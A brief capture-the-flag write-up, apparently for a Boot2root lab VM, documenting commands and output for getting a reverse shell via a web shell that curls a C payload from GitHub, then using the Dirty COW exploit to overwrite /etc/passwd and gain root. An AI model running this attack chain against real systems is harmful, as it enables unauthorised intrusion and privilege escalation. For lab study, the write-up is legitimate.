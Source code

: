 # writeup 2

## Reverse shell

- Introduce our script in the server\
https://192.168.56.102/forum/templates_c/myfile.php?cmd=curl%20https://raw.githubusercontent.com/Gropopus/Boot2root/master/reverse_shell.c%20--output%20reverseshell.c

- Compile it
```
$ curl https://192.168.56.102/forum/templates_c/myfile.php?cmd=gcc%20reverseshell.c%--output%20reverseshell.c
```
 - Launch netcat in the terminal
```
$ nc -vl 5432
```
- Execute the script\
https://192.168.56.102/forum/templates_c/myfile.php?cmd=./a.out

In terminal :
```
Listening on 0.0.0.0 5432
Connection received on e1r13p5.clusters.42paris.fr 55310
$ whoami
www-data
```

## Dirty cow

```
$ uname -r
3.2.0-91-generic-pae
```

valid exploit : `dirtycow` https://github.com/firefart/dirtycow/blob/master/dirty.c\
This program create a user with root privileges.

```
This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
```

```
$ cd /tmp
$ curl https://raw.githubusercontent.com/Gropopus/Boot2root/master/dirty.c --outpput dirty.c
$ gcc -pthread dirty.c -o dirty -lcrypt
gcc: error trying to exec 'cc1': execvp: No such file or directory
$ env
...
PWD=/tmp
...
$ export PATH=/usr/lib/lightdm/lightdm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
$ gcc -pthread dirty.c -o dirty -lcrypt
$ ./dirty
Please enter the new password: p
/etc/passwd successfully backed up to /tmp/passwd.bak
iciComplete line:
root:fil.mzz26AR.E:0:0:pwned:/root:/bin/bash

mmap: b7fd9000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'p'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
/etc/passwd successfully backed up to /tmp/passwd.bak
iciComplete line:
root:fil.mzz26AR.E:0:0:pwned:/root:/bin/bash

mmap: b7fd9000
madvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'p'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

$ cat /etc/passwd
...
root:fil.mzz26AR.E:0:0:pwned:/root:/bin/bash
...
$ su root
su: must be run from a terminal
```
Connect with Laurie:\
*rappel password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4*

```
$ ssh laurie@192.168.56.102
$ su root
$ whoami
root
```
The end !
